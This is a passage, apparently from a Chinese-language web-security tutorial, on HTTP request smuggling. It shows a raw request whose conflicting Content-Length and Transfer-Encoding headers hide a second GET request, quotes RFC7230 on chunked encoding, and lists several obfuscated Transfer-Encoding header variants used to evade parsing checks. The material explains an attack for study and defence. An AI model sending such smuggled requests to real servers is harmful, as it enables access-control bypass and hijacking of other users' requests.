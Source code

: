 ```plain
GET /tests HTTP/1.1
Host:localhost
Dummy:Header
```

而如果存在 TE & CL 优先级问题的话，会被解析成两个请求：

```plain
GET / HTTP/1.1[CRLF]
Host:localhost[CRLF]
Content-length:56[CRLF]
Transfer-Encoding: chunked[CRLF] (ignored and removed, hopefully)
Dummy:Header[CRLF]
[CRLF]
0[CRLF]  (start of 56 bytes of body)
[CRLF]
GET /tmp HTTP/1.1[CRLF]
Host:localhost[CRLF]
Dummy:Header[CRLF] (end of 56 bytes of body, not parsed)
```

```plain
GET /tests HTTP/1.1
Host:localhost
Dummy:Header
```

### Bad Chunked Transmission

根据 [RFC7230 section 3.3.3](https://tools.ietf.org/html/rfc7230#section-3.3.3) ：

> If a Transfer-Encoding header field is present in a request and the chunked transfer coding is not the final encoding, the message body length cannot be determined reliably; the server MUST respond with the 400 (Bad Request) status code and then close the connection.

也就是说当接受到`Transfer-Encoding: chunked, zorg`的时候，应该返回 400 错误。

这类可以有很多绕过，比如：

```plain
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked

Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

GET / HTTP/1.1
 Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
 : chunked
```
